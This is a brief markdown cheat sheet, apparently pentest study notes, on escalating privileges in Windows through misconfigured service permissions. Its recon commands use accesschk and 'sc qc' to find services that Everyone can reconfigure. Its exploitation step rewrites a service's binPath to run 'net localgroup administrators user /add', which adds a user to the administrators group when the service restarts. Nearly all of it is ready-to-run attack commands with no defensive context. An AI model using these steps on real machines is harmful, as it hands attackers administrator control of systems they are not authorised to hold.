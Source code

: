 ## binPath
### Recon
- Run accesschk to see all service names where we have write access:
```
accesschk64.exe -uwcv Everyone *
```
- See service where we have SERVICE_CHANGE_CONFIG perm.
- Can also use `PowerUp.ps1`, check under 'Checking service permissions`.
- Query the service:
```
sc qc <service name>
```

### Exploitation
- Since we can change the config. we can set the binPath to a malicious command. Like add user.
```
sc config <service name> binpath= "net localgroup administrators user /add"
```
- Restart the service might get an error but user will be added.
